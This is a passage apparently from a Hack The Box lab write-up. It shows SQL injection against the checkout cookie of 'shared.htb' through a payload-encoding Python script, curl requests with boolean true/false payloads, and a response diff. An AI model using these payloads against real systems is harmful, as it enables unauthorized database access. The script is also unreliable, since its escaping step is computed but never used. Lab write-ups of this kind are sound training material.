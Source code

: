 ### Vulnerability Discovery

Let's input some basic SQL injection payloads to the cookie in the BurpSuite repeater tab to see if SQL injection is possible.

![BurpSuite injection payloads](burpsuite-injection-0.png)
_The server's response to a common SQL injection payload_

```json
{"CRAAFTKP'#":"1"}
```
{:.nolineno}

The response to the first payload suggests that SQL injection is possible but we can make sure by sending a payload that should evaluate to _false_, and one that should be _true_.

```python
#!/usr/bin/env python3

from urllib.parse import quote
from sys import argv

if len(argv) == 2:
        sqli = argv[1]
        sqli = sqli.replace('\\', '\\\\')
        sqli = sqli.replace('"','\\"')
        print(quote('{"' + argv[1] + '":"1"}'))
```
{:file="makepayload.py"}

```bash
chmod +x makepayload.py
true=$(./makepayload.py "' OR 1=1#") # Always resolves to true
false=$(./makepayload.py "' AND 1=2#") # Always resolves to false

url="https://checkout.shared.htb"
curl -k -s $url -b "custom_cart=$true" | sed 's/^ *//' > true.html
curl -k -s $url -b "custom_cart=$false" | sed 's/^ *//' > false.html
```
{:.nolineno}

This should leave you with two files called `false.html`{:.filepath} and `true.html`{:.filepath}. To find the difference between the two response bodies we can use `diff`.

```bash
diff false.html true.html
```
{:.nolineno}
```diff
37,39c37,39
< <td>Not Found</td>
< <td>0</td>
< <td>$0,00</td>
---
> <td>53GG2EF8</td>
> <td>1</td>
> <td>$23,90</td>
45c45
< <th scope="col">$0,00</th>
---
> <th scope="col">$23,90</th>
```
{:.nolineno}
